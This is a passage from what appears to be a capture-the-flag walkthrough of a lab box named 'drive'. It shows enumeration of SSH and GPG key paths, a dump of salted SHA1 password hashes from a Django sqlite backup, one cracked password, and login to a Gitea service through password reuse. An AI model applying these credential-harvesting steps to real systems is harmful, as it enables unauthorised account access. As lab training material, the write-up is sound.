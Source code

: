 ```console
./snap/lxd/common/config
./snap/lxd/common/config/config.yml
./snap/lxd/24061
./snap/lxd/current
./.ssh
./.ssh/known_hosts
./.bash_history
./.bash_logout
./.gnupg
./.gnupg/trustdb.gpg
./.gnupg/private-keys-v1.d
./.gnupg/pubring.kbx
```

I can view the `sqlite3` database mentioned above and grab some hashes:

```console
martin@drive:/var/www/backups$ sqlite3 db.sqlite3 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> show tables
   ...> ;
Error: near "show": syntax error
sqlite> .tables
accounts_customuser                   auth_permission                     
accounts_customuser_groups            django_admin_log                    
accounts_customuser_user_permissions  django_content_type                 
accounts_g                            django_migrations                   
accounts_g_users                      django_session                      
auth_group                            myApp_file                          
auth_group_permissions                myApp_file_groups                   
sqlite> select * from accounts_customuser;
21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
23|sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004|2022-12-24 13:17:45|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372
```

I crack one for the user `tom@drive.htb`

```text
sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john316
```

Great, but database backups are password-protected `7z` archives.

The [Gitea](https://about.gitea.com/) service is running on `localhost` where the developers seem to be keeping their code. I'm able to create a new Gitea user, but there's nothing interesting shared with unprivileged users. However, I'm able to login as `martin@drive.htb` with the same password as above, `Xk4@Kj[…]`.
